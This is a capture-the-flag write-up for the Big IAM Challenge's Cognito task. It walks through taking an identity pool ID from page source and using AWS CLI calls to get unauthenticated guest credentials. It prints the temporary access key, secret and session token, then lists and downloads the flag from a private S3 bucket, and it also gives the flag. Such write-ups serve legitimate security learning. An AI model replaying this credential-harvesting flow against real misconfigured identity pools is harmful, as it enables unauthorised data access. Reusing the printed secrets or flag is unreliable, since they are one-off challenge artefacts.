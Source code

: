 ```yaml
---
tags:
  - IAM
  - Cognito
  - S3
title: The BIG IAM Challenge - Do I Know You
description: Be aware how identity pool generate AWS credentials for the guest access
reference: https://thebigiamchallenge.com/challenge/5
---
```


## Challenge

We configured AWS Cognito as our main identity provider. Let's hope we didn't make any mistakes.

## Solution

### 1. View the provided IAM Policy

```json
{ "Version": "2012-10-17", "Statement": [ { "Sid": "VisualEditor0", "Effect": "Allow", "Action": [ "mobileanalytics:PutEvents", "cognito-sync:*" ], "Resource": "*" }, { "Sid": "VisualEditor1", "Effect": "Allow", "Action": [ "s3:GetObject", "s3:ListBucket" ], "Resource": [ "arn:aws:s3:::wiz-privatefiles", "arn:aws:s3:::wiz-privatefiles/*" ] } ] }
```

### 2. What are AWS Mobile Analytics and AWS Cognito Sync

Amazon Mobile Analytics was a service for collecting, visualizing, understanding, and extracting app usage data at scale.

Amazon Cognito Sync is an AWS service and client library that makes it possible to **sync application-related user data across devices.** Amazon Cognito Sync can synchronize user profile data across mobile devices and the web without using your own backend. The client libraries cache data locally so that your app can read and write data regardless of device connectivity status. When the device is online, you can synchronize data. If you set up push sync, you can notify other devices immediately that an update is available.

### 3. Observing the website elements

The cognito image is **a signed image on S3!**!

![](/attachments/wiz_iam_ch_5_1.mp4)

Use browser developer tool to copy the elements:

- the image is stored in S3 bucket `wiz-privatefiles`.
- identity pool id: `us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b`
	- Amazon Cognito identity pools provide temporary AWS credentials for users who are guests (**unauthenticated**) and for users who have been authenticated and received a token. An identity pool is **a store of user identifiers linked to your external identity providers**.

```
<img style="width: 16rem" id="signedImg" class="mx-auto mt-4" src="https://wiz-privatefiles.s3.amazonaws.com/cognito1.png?AWSAccessKeyId=ASIARK7LBOHXORQTFYAG&amp;Expires=1748256168&amp;Signature=4eJdL1fzIAyEq2aV91f4VGphkZo%3D&amp;x-amz-security-token=IQoJb3JpZ2luX2VjEHoaCXVzLWVhc3QtMSJGMEQCIH4qCFaasM9jjHqNxyl6nj7zptApgwRL9MpowMijQajhAiBUFHHevHpTWebY%2FnuOsq%2FJHx4VI9695%2FcFr1WDBqgM%2FSqwBQhDEAAaDDA5MjI5Nzg1MTM3NCIMs9QdMX%2FJxX2whqqZKo0Fzl3mSMIlMzf5ORIxYs9XnEg0wPpdR5eZ2UfqDbaUGKb%2BBV75WbRkfRAtHgaCu4uSbFnxsH3Ze9c1QHORqSPQT4lisRsmwgzqTUccCbs52LVjqjbkTRNF3c4JKJb89mzhI4Jh9zCtJd94Pi9n%2BYrF2Ka4LpNWObbxFm4vEDxfA47MsHmt5MConIp3Vj%2FI9vOL4%2BhSyaCrMjomahv5vhnCgSjPkN8rZNzps%2Boa2Ol6RrDrXti3VpbnXFtiPhBUn8Aoje4zMWltSrQpHwdB3%2FtO3C6nqsYBjZevr%2FWjQvwJANmlE%2FAymtNFv4RTDO7XmhEtdlJ%2BnuldcnZSJTpL9y0JbJLrWUImdGqx24AtLhZ9nqwPV%2BU8yFjMpPbvqip34PXR0wglthsgYD42ZgqKb37MZUvqU1aw4hlpcJ8AN6iK%2BzwxpP%2F%2FuCalz5aoS8dic2fYjyug%2Bxt%2FvOC8bT4Jcre5t%2Bi0HuQIbicWou6fwenBOByKx4XT4AZ8VFGkj6PG3trrZQ2vFtiCW862fUSNmsQRrRRPPqSr9Aju5DaQ2jJ5zpIUoURI2o%2BhKgiGdThylqFFPl%2BId0EGydwpuqoh3ww2VQ58rTnxG%2FjtjZh9m51OTYjBUrQGlo9h8ikXeQpp0iCbFBQPcphKTPwirTftkEwZHd8tVvhWiYl8LdcuPrcAK%2FNYgGIUvDWyTEBfSdfIVBojoP8IK2266cQ7NG1VQp7nBLEV0YcQs4PBImkbeRpkEXKSuo%2Bv1mVfCXaI4mvlHx6Vzgtvj8FedbPOEPk8XlvnwXn3DdYweNG0djNMlsHA4dfpom3TjsBkLbEGeWzCNw5yCLPW9791GewAdHthciQvwqWy2iuc4aRtD%2FJ88KgwmO%2FQwQY63wKLrV%2Fbq8cgVByODYSwkw48bPYNTtRmkSb7P44AbOWkFfTidSZxSBZbYG5v92bTNk8%2BmIci%2FfXGGAdqtOOOBc8HmiegCuetnBrdn9MmIsL9wXECs0N%2FVvxAnEhRbwvWot0UheLzcFR6T6sw4%2FFai5N9yiYyeQjzu%2BkGUcmqx1ZrxbzDKsv0zcVXjR5yIlLOrweBFOIkmAyPWlzlifhpqVs9IpJ1gick%2FebeUaOSiSWETwBEZu7rPNIk6FaWfidN81jAK2OOHimyKKzrgug%2BBRj8p6X5hDvAD5fieEa%2BZu%2Fv%2BLV4mZPUc2lF0yL2SqE6q94OGLY4d7NtxwTTzJHj7zujN%2BHI%2F0ce8tJ6LbT6Bjsxz9KIlUr25lq1piKXHx0xQb47SjTL1%2BCV%2BfYS8xMM0WK86My9mC83MvdF8NUDDdiFfJG8CBULgl9nKMcz67fKATBgAB4dVLlO0InxNZvdLjY%3D" alt="Signed img from S3">
<script src="https://sdk.amazonaws.com/js/aws-sdk-2.719.0.min.js"></script>

  AWS.config.region = 'us-east-1';
  AWS.config.credentials = new AWS.CognitoIdentityCredentials({IdentityPoolId: "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"});
  // Set the region
  AWS.config.update({region: 'us-east-1'});

  $(document).ready(function() {
    var s3 = new AWS.S3();
    params = {
      Bucket: 'wiz-privatefiles',
      Key: 'cognito1.png',
      Expires: 60 * 60
    }

    signedUrl = s3.getSignedUrl('getObject', params, function (err, url) {
      $('#signedImg').attr('src', url);
    });
});
```

### 4. Study the Identity pools authentication flow


![[aws identity pools auth flow.png]]

1. Your application presents a proof of authentication–a JSON web token or a SAML assertion–from an authorized Amazon Cognito user pool or third-party identity provider in a [GetID](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetId.html) request.
2. Your identity pool returns an identity ID.
3. Your application combines the identity ID with the same proof of authentication in a [GetCredentialsForIdentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetCredentialsForIdentity.html) request.
4. Your identity pool returns AWS credentials.
5. Your application signs AWS API requests with the temporary credentials.

Reference: https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html

### 5. Authentication

1. get identity id
```
> aws cognito-identity get-id --identity-pool-id us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b

{

    "IdentityId": "us-east-1:157d6171-ee8b-cc0c-c368-7933c4553f14"

}
```

2. get AWS role credentials for the identity id

```
> aws cognito-identity get-credentials-for-identity --identity-id us-east-1:157d6171-ee8b-cc0c-c368-7933c4553f14

{

    "IdentityId": "us-east-1:157d6171-ee8b-cc0c-c368-7933c4553f14",

    "Credentials": {

        "AccessKeyId": "ASIARK7LBOHXDOO5IS6L",

        "SecretKey": "U7OogZZEjv7YjL0KKpJSfLaed7jxLGJYUXidS3rQ",

        "SessionToken": "IQoJb3JpZ2luX2VjEHsaCXVzLWVhc3QtMSJGMEQCICjm+071xwvxZ1CIMdZs9b4AgNDmpbuGbl584+r8M4KEAiAKCI/p1K5jW2o5fp8vcBig

ISJvLLlCFT/9mVK8C1yLTyqxBQhEEAAaDDA5MjI5Nzg1MTM3NCIMFHwSSDWqLwYPrYIEKo4FMbGA5qxxiugh5Uv7nsF+sb9iks3OrXyoDDgT8aF+i1OeQmI7mAncoS5DuLn23

enicKUIs3ICTgk5TjKgP1x8yM4k+IGP0gHoygZdl8BeGTlkj/T0whz3OG8fxvzs4G46J7E5dP/qQfoCRkxVtWLT3NiP7qA+zy0rf1gsEdSRUAFdzzdI9CnwVbHFiXpwdrfJbp

kJjTU77W01z5eZBOeZTQLbmrN80W0FDWAzdu5lNIgaXBJumYWkbHAkPJje3lsPQH3yzzTUO6d/udhd+5SZusGc2MEXJdj/F3RcWBMjWdFo2XGqB6vwO7+eegAKAHWw2WSMpYq

vjVpbfkXWcBU06fktFOBm37lG6w+PlZCdDNsmZ096NkBIzdJZ1h91txwKEb3SeZ0ux5Uv1AgIeWSe2kBP0bFHMX0hqvQhQ2jR6ARWDqJ69tMkp93H109DvE2r+SDJFbRjrEIh

nKe5W04xsjxXL4C14uHHRezzOFxQlze8/deJAlMOSNsOIBwkcU8J2NyriE0TMPApw6J+fUYAn0+dSXD9K0def94DRlQq/7awcZHS1MDPJAwTNWIJW1miGanZWUkjv8JmYBJ/A

+aaj9YFpQBFFKqvpQKsunfre5dY9n6MiMgV+PMN9yEmuK7QKyGzIUxPSdxYh+kJR07gLi9rXGbl1YJF8tQv7SKMVAFerDIqQK2Ny6YoTA6xxqWXkgROpch9NORN5cm+5aY5ew

rCDoY2Z8Lexxcka/AVwEZzAAbdHMKaFHxBJqym9EkPSv7PXMM0lcLztCiNvsUUhCpU7ee7DcstXi7cO9tVQUnSMr8WVkrJ8hJZZbjpnR7OKHr1d2+ydHzP1sqlKt7jWMip2ab

KUFiHUw8qYxpyMImF0cEGOt4Ce4cO5pquAaDdAyxtEwdYVBcKRNloKMEI1RHARhxXXNNJti6fR9COFnSKnlDquNNuf3967EM4UmmSnNXVcPsouQ8PMBapP/Sci8+6VM6uh/HH

KIButcbLkww+uCFzUna5B/1Pk0jNqvuIJpB+ebjSKqiA6mojxLsjePiMSh5egUJly97BUr9P054si+B0RmziFcELOEGuOZeQ0ialBc/5aLEWfzO2Vk7pOBufUnUZy0AsHAJyf

OjRbFACoOEC799J0qFm4SDOGOLF0WDE3Ex58LaCIU0G7KZu0ppLo9ufcgjNPLzGN7iI5JLq1E2WQIYphvAN34wgCEa/JbqEcyshaZlyFlO5JtVedUeeXfsSYuQkXaa5CISk2H

7M3/RJSVYLZdP3aOT8LmTxM0weXJ63EaZr0TMOivInrrxUl2q5GRpKB+tjqparuXHc2K2Lkgj0yGy1jzJ6bZPok2F+UMI=",

        "Expiration": 1748258969.0

    }

}
```

### 6. Configure aws cli credential 

```
tim@tim-virtual-machine ~/.aws [2]> aws sts get-caller-identity
{
    "UserId": "AROARK7LBOHXJKAIRDRIU:CognitoIdentityCredentials",
    "Account": "092297851374",
    "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessUnauth_Role/CognitoIdentityCredentials"
}
```

### 7. Try to access the S3 bucket

```
tim@tim-virtual-machine ~/.aws> aws s3 ls wiz-privatefiles
2023-06-06 03:42:27       4220 cognito1.png
2023-06-05 21:28:35         37 flag1.txt
tim@tim-virtual-machine ~/.aws> aws s3 cp s3://wiz-privatefiles/flag1.txt flag1.txt
download: s3://wiz-privatefiles/flag1.txt to ./flag1.txt
tim@tim-virtual-machine ~/.aws> cat flag1.txt
{wiz:incognito-is-always-suspicious}
```